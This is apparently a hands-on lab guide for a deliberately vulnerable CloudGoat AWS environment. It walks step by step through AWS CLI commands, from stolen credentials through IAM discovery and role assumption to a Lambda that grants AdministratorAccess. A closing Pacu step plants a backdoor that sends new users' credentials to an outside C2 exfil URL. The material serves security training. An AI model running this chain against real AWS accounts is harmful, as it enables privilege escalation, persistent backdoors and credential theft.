









.. _lambda_lab:

|
|

Serverless Persistence Attack
============

Start attack
++++++++++++

At this point we have created vulnerable infrastructure in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges.

- Create a new aws profile with scenarios stolen credentials

.. code:: console

    aws configure --profile chris

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen chris credentials (Chris was created by Cloudgoat)

-  Set the “Default region” to ``us-east-1`` and the “Default output” format to
   ``json``

- Do discovery to find the username associated with the access key

.. code:: console

    aws sts get-caller-identity --profile chris

- With the username list all user policies and copy the policy ARN to your text file

.. code:: console

    aws iam list-attached-user-policies --user-name <associated user name> --profile chris

- Get current version of the policy using the ARN from the previous step

.. code:: console

    aws iam get-policy-version --policy-arn <ARN> --version-id v1 --profile chris 

The policy allows the user to assume and list roles

- List the roles and copy the ``Role Name`` and ``ARN`` of the role name to your text file

.. code:: console

    aws iam list-roles --profile chris | grep cg-debug-role-lambda 
    
.. code:: console

    aws iam list-roles --profile chris | grep cg-lambdaManager-role-lambda 

- Use the role name output to list the attached policies and copy the ``Policy Name`` and ``ARN`` output to your text file

.. code:: console
   
    aws iam list-attached-role-policies --role-name <debug role name> --profile chris
    
.. code:: console

    aws iam list-attached-role-policies --role-name <lambda manager role name> --profile chris

- From that output you can see
   - ``cg-debug-role-lambda_privesc`` can be assumed by a Lambda
   - ``cg-lambdaManager-role-lambda_privesc`` can be assumed by your user

- Let’s get the polices attached to the role we can assume

.. code:: console

    aws iam get-policy-version --policy-arn <lambdaManager policy ARN> --version-id v1 --profile chris

- From the output we can see the role has Lambda admin permissions

Create Lambda Function 
+++++++++++++++++++++++

To assume the role you will need the role ARN for cg-lambdaManager-role-lambda.  If you need it again you can run ``aws iam list-roles --profile chris | grep cg-lambdaManager-role-lambda``

- Assume the role

.. code:: console

    aws sts assume-role --role-arn <Lambda Manager Role ARN> --role-session-name lambdaManager --profile chris

- When you assume the role new security credentials displayed.  You will need these to setup a new profile so copy them to your text tile 

- Create a new AWS profile

.. code:: console

     aws configure --profile lambdaManager

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   assumed role credentials 

-  Set the “Default region” to ``us-east-1`` and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentials file
   (use i for insert mode then esc :wq to save and close)

.. code:: console

     vi  ~/.aws/credentials

- Create new file

.. code:: console 

     touch lambda_function.py && vi lambda_function.py

- Add contents to new file and update with your discovered username ``aws sts get-caller-identity --profile chris``

.. code:: python

    import boto3
    def lambda_handler(event, context):
            client = boto3.client('iam')
            response = client.attach_user_policy(UserName = '<username>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
            return response

- Zip the file 

.. code:: console

    zip -q lambda_function.py.zip lambda_function.py

- Deploy and assign the Lambda function with the Lambda admin role.  This is the ARN from ``cg-debug-role-lambda_privesc`` discovered in a previous step by running ``aws iam list-roles --profile chris | grep cg-debug-role-lambda``

.. code:: console

    aws lambda create-function --function-name admin_function-<initials> --runtime python3.6 --role <Role ARN> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager

- Invoke the new function 

.. code:: console

   aws lambda invoke --function-name admin_function-<initials> out.txt --profile lambdaManager

- Test privilege escalation user policy was applied.

.. code:: console

    aws iam list-attached-user-policies --user-name <username> --profile chris

Serverless Persistence
+++++++++++++++++++++++

For this part of the attack we will use Pacu

-  Start pacu from the shell session by running ``~/pacu/cli.py``
-  Create new session in pacu named ``chris``
-  Add the keys from your AWS profile using ``import_keys chris``
-  List the Lambda functions with ``run lambda__enum``

Create persistence with Lambda that creates a backdoor IAM user credentials.  This will require 2 inputs which you will need prior to proceeding
   - Role ARN from previous attack ``aws iam list-roles --profile chris | grep cg-debug-role-lambda``
   - exfil-url ``https://commander-api.vectratme.com/adduser``

Once you have the above values run the below in pacu.  You will be prompted for the ARN.

.. code:: console

    run lambda__backdoor_new_users --exfil-url https://commander-api.vectratme.com/adduser

   
Persistence has been set. Lets create a new user to test it (you don't need to leave pacu)

.. code:: console
    
    aws iam create-user --user-name <initials> --profile chris

Now let’s visit our C2 site https://commander.vectratme.com/ to verify.  You will need a logon provided by Vectra.

